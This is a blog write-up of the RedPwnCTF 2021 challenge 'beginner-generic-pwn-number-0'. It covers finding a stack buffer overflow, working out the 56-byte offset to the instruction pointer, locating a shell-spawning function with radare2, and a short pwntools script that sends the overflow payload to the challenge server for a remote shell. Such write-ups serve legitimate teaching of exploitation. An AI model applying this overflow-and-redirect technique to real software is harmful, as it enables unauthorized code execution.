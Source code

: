 +++
author = "biplavxyz"
date = "2021-07-14"
title = "RedPwnCTF-2021 - Writeup - pwn/beginner-generic-pwn-number-0"
+++

Greetings everyone!  
This is going to be writeup about the challenge `beginner-generic-pwn-number-0` of `pwn` category from RedPwnCTF 2021.  
  
`Challenge 1: beginner-generic-pwn-number-0`  
Running the binary with sample input `test` simply exited the program with no error code, while running the binary with very long input threw `segmentation fault` error. So, the program had buffer overflow vulnerability.  
![1](/pwn1checking1.png)  

Then, I tried to find the number of bytes after which overflow occured. I printed a large number of 'A' character and passed it to the program, which caused program to crash with same `segmentation fault` error.  
```perl
perl -E "print 'A' x 58" | ./beginner-generic-pwn-number-0"
```
![3](/pwn1checking3.png)  

Then, I ran `dmesg` command to print the message buffer of kernel.
![4](/pwn1checking4.png)  
It can be seen that crash was caused due to the bad value of `RIP` register.  
`4141` are two extra `A` characters that buffer couldn't handle, and thus it overwrote the instruction pointer.  
As we printed out `58` `A` characters, and had two extra `A`'s, the required offset will be `58-2` which equals to `56`.  

Now, it's time analyze the binary with radare2.
I opened the binary in radare2 with command:  
`r2 beginner-generic-pwn-number-0`, and analyzed the binary with `aaaa`.  
I extracted the binary info with `iI` command.  

![2](/pwn1binaryinfo.png)  
As the binary didn't have canary enable, and wasn't stripped, exploiting it was easy.  
Then, I printed functions list with `afl`, and seeked to the main function with `s main`.  

![5](/pwn1r2-1.png)  

![6](/pwn1r2-2.png)

Then, I printed the disassemble code of main function with `pdf` command. 
It can be seen that there is also an address `0x004012ac` which calls shell.  
```bash
/bin/sh
```
![7](/pwn1r2-addressofshell.png)
As instruction pointer can be controlled , it is possible to jump to the address where shell can be executed.  

I used pwntools to craft a simple exploit and got a shell.

```python
from pwn import *

#elf = ELF('./beginner-generic-pwn-number-0')

#p = elf.process()

#print(p.recv())

p = remote("mc.ax", 31199)

payload = b"A"*56 + p64(0x004012ac)

p.sendline(payload)

p.interactive()
```  

![8](/pwnexploit1.png)

And there it was, I got shell, and got the flag.

Hope you learned something.  
Thanks for reading!  
> - <cite>seizetheday</cite>
